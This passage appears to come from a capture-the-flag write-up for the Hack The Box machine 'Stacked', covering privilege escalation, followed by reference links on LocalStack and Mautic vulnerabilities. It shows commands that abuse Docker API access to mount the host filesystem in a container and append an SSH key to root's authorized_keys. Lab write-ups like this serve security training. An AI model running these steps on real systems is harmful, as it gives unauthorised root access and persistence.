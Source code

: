 ### Root on Stacked (Privilege escalation in the machine)
We now have unrestricted access to the Docker API, which we can abuse by creating a new container mounting the host filesystem. We will use an existing image and override its entrypoint with `/bin/sh`.

```bash
~ # docker image ls
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
localstack/localstack-full   0.12.6              7085b5de9f7c        18 months ago       888MB
localstack/localstack-full   <none>              0601ea177088        23 months ago       882MB
lambci/lambda                nodejs12.x          22a4ada8399c        24 months ago       390MB
lambci/lambda                nodejs10.x          db93be728e7b        24 months ago       385MB
lambci/lambda                nodejs8.10          5754fee26e6e        24 months ago       813MB

docker run -v /:/mnt --entrypoint sh -it 0601ea177088

/mnt/root/.ssh # echo "ssh-xxx<SNIP>" >> authorized_keys
```

If creating a new container from scratch: https://7rocky.github.io/en/htb/stacked/#privilege-escalation-on-the-machine

### Beyond root
* https://0xdf.gitlab.io/2022/03/19/htb-stacked.html#beyond-root

### Refernece
* https://www.horizon3.ai/unauthenticated-xss-to-remote-code-execution-chain-in-mautic-3-2-4/
* https://portswigger.net/daily-swig/localstack-zero-day-vulnerabilities-chained-to-achieve-remote-takeover-of-local-instances
* https://www.sonarsource.com/blog/hack-the-stack-with-localstack/
* https://stackoverflow.com/questions/632774/what-do-the-different-readystates-in-xmlhttprequest-mean-and-how-can-i-use-them
* https://gist.github.com/A1vinSmith/4ec1553fe85e3fd0ed814199f6a7e1b0

### Writeups
* https://7rocky.github.io/en/htb/stacked/
